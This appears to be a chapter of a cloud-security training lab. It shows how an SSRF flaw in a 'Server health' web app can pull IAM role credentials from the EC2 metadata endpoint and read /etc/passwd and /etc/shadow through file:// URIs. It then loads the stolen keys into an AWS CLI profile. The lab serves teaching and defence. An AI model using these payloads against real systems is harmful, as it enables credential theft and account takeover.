

# Stealing credentials 

## Introduction

There are multiple places in an EC2 that can store credentials. An EC2 specific place is the meta-data instance endpoint.

Due to the application being vulnerable to SSRF, an attacker can also use the file:// URI to read other files on the system as well that may contain credentials.

## What are we going to cover?

This chapter will cover an attack that can be used to steal IAM credentials from an EC2 instance that has an IAM role attached to it.

## Steps to attack

As we saw that the application is vulnerable to SSRF, we can use it to fetch IAM creds (if they exist) from the instance metadata.

Oh, and if the vulnerability allows a way, always check what permissions the webserver is running with :)

### Attack 1 - Find the IAM Security Credentials

Provide the following URLs to the Server health application:

    http://169.254.169.254/latest/meta-data/

    http://169.254.169.254/latest/meta-data/iam/

    http://169.254.169.254/latest/meta-data/iam/security-credentials/

What is the endpoint where credentials can be discovered?

Once credentials are discovered, you may notice that these are essentially 3 values

- aws_access_key_id
- aws_secret_access_key 
- aws_session_token

To add them to your local aws cli without overwriting your current configuration, **follow these steps very carefully**

1. Run `aws configure --profile stolen`
2. Provide the stolen values correctly. Enter `us-east-1` for region and `json` for output
3. Once done, open the `~/.aws/credentials` file in a text editor
4. Under the `[stolen]` section add `aws_session_token` and add the discovered token value here
5. To see who you are run `aws sts get-caller-identity --profile stolen`

Any number of profiles can be created. As and when you find credentials, add them to the cli config using different `--profile` options. **Remember to not overwrite the default profile!**

### Attack 2 - What user is this webserver running as?

Can you read the following files?

    file:///etc/passwd

    file:///etc/shadow

The webserver is running as a root user and is able to read the /etc/shadow file

## Additional references
- [Retrieving Security Credentials from Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html#instance-metadata-security-credentials)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [SSRF to Shell via IAM Policies](https://speakerdeck.com/riyazwalikar/raining-shells-in-aws-by-chaining-vulnerabilities?slide=20)